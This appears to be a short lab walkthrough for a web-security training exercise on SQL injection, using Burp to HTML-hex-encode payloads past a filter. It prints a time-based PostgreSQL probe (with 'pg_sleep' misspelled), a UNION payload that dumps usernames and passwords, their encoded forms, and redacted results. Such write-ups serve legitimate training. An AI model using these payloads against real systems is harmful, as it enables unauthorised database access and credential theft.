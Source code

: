 Firstly determine what DB we are dealing with.

I decided to use timeout to achieve this

` UNION SELECT 'a'||pg_slee(10)`

encode it as HTML HEX using Burp menu right-click => "Convert Selection" => "HTML" => "HTML-encode all characters (hex-entries)"

`&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x27;&#x61;&#x27;&#x7c;&#x7c;&#x70;&#x67;&#x5f;&#x73;&#x6c;&#x65;&#x65;&#x70;&#x28;&#x31;&#x30;&#x29;`

That determines we are targetting PostgreSQL backend

Now inject SQL to retreive the full list of users and passwords from `users` Table. Note that the `UNION` can only select 1 field so concat usersname with password.

` UNION SELECT username||'~'||password FROM users`

encoded to !

`&#x20;&#x55;&#x4e;&#x49;&#x4f;&#x4e;&#x20;&#x53;&#x45;&#x4c;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6e;&#x61;&#x6d;&#x65;&#x7c;&#x7c;&#x27;&#x7e;&#x27;&#x7c;&#x7c;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6f;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4f;&#x4d;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;`

Results:

```
wiener~REDACTED
administrator~REDACTED
carlos~REDACTED
```
